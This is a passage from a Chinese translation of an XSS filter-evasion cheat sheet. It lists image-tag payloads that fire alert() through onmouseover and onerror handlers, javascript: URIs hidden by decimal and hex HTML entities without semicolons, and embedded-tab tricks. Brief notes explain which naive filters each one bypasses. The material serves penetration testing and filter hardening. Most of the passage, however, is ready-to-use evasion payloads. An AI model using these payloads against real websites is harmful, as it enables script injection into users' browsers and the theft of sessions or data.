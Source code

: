     <IMG SRC=# onmouseover="alert('xxs')">

---
##默认SRC属性通过省略它的值##

    <IMG SRC= onmouseover="alert('xxs')">

---
##默认SRC属性通过完全不设置它##

    <IMG onmouseover="alert('xxs')">

----
##通过error事件触发alert##

    <IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

----
##十进制html编码引用##
所有在<IMG>中使用javascript指令的xss示例将无法工作在 Firefox 或 Netscape 8.1+，因为它们使用了 Gecko 渲染引擎。使用 XSS [Calculator][2] 获取更多信息。

    <IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
    &#39;&#88;&#83;&#83;&#39;&#41;>

-----
##结尾没有分号的十进制html编码引用##
它是经常有用的在绕过寻找"&#XX;"格式的xss过滤，因为大多数人不知道最多允许7位字符的编码限制。这也是有用的对那些对字符串解码像$tmp_string =~ s/.*\&#(\d+);.*/$1/; 的过滤器,它们错误的认为一个html编码必须要用;去结束。（我是无意中发现）

    <IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

-----
##结尾没有分号的十六进制html编码引用##
这也是一种实用的xss攻击针对上文的$tmp_string =~ s/.*\&#(\d+);.*/$1/; ，错误的认为数字编码跟随在#后面（十六进制htnl编码并非如此），。使用 XSS [Calculator][3] 获取更多信息。

    <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

----
##内嵌TAB##
用来分开xss攻击代码

    <IMG SRC="jav	ascript:alert('XSS');">

----
##内嵌被编码的TAB##
用来分开xss攻击代码

    <IMG SRC="jav&#x09;ascript:alert('XSS');">

-----
##内嵌换行符去分开xss代码##
一些网站声称09-13编码的所有字符（十进制）都可以实现这种形式的攻击。这是不正确的。只有09(tab), 10 (换行) 和 13 (回车)可以使用。你可以查看ascii表为更详细的信息。下面四个xss例子展示了这个向量。


  [1]: http://ha.ckers.org/xsscalc.html
  [2]: http://ha.ckers.org/xsscalc.html
  [3]: http://ha.ckers.org/xsscalc.html
  [4]: http://help.dottoro.com/
  [5]: http://help.dottoro.com/ljfvvdnm.php
  [6]: https://tools.ietf.org/html/rfc2397
  [7]: http://ha.ckers.org/xsscalc.html